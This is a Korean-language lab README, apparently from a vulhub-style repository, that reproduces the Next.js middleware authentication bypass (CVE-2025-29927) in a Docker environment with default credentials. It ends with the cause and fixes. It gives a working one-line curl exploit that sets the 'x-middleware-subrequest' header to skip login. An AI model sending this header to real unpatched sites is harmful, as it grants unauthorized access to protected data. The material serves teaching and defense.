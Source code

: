 # Next.js 미들웨어 인증 우회 (CVE-2025-29927)

Next.js는 서버 사이드 렌더링(SSR), 정적 사이트 생성(SSG), 통합 라우팅 시스템 등 다양한 기능을 제공하는 React 기반 웹 애플리케이션 프레임워크입니다.  
Next.js를 인증 및 인가 미들웨어와 함께 구성할 때, 14.2.25 및 15.2.3 이전 버전에서는 인증 우회 취약점이 존재합니다.

이 취약점을 통해 공격자는 `x-middleware-subrequest` 헤더를 조작하여 미들웨어 기반 보안 제어를 우회하고, 보호된 리소스 및 민감한 데이터에 비인가 접근을 시도할 수 있습니다.

---

## 참고 자료

- [GitHub 보안 권고문](https://github.com/advisories/GHSA-f82v-jwr5-mffw)
- [Zero Web Security 연구 문서](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)
- [NVD CVE-2025-29927 상세 정보](https://nvd.nist.gov/vuln/detail/CVE-2025-29927)

---

## 환경 구성

다음 명령어를 실행하여 Next.js 15.2.2 버전 기반의 취약한 애플리케이션을 시작합니다:

```bash
docker compose up -d
```

애플리케이션이 실행된 후, 브라우저에서 다음 주소로 접속합니다:

```
http://your-ip:3000
```

초기 접속 시 로그인 페이지로 리다이렉트됩니다.  
기본 로그인 정보는 다음과 같습니다:

```
ID: admin
PW: password
```

로그인 후 대시보드에 접근할 수 있습니다.

![Docker Compose 실행](./images/docker-up.png)

---

## 취약점 재현

### 정상 접근 시도

로그인 없이 대시보드에 접근을 시도하면 로그인 페이지로 리다이렉트됩니다.

```bash
curl -i http://your-ip:3000
```

![로그인 페이지 접속](./images/login-page.png)

---

### 인증 우회 공격

취약점을 악용하기 위해, 요청 헤더에 `x-middleware-subrequest`를 추가합니다.  
헤더 값은 다음과 같이 설정합니다:

```
middleware:middleware:middleware:middleware
```

명령어 예시는 다음과 같습니다:

```bash
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware" http://your-ip:3000
```

![인증 우회 성공](./images/bypass-success.png)

정상적으로 인증 우회가 이루어지며, 로그인을 하지 않고도 보호된 리소스에 접근이 가능합니다.

---

## 결론

- 문제 원인: Next.js 미들웨어가 내부 서브 요청(`x-middleware-subrequest`)을 제대로 검증하지 않음.
- 영향: 인증 절차를 거치지 않고 민감한 리소스에 접근할 수 있음.
- 대응 방안:
  - Next.js 버전을 15.2.3 이상으로 업데이트
  - 미들웨어 요청 시 추가적인 세션 및 사용자 인증 검증 로직 추가
  - 신뢰할 수 없는 클라이언트로부터의 헤더 조작을 차단

---

## GitHub 레포지토리 링크

- [https://github.com/JuniorJANG/vulhub](https://github.com/JuniorJANG/vulhub)
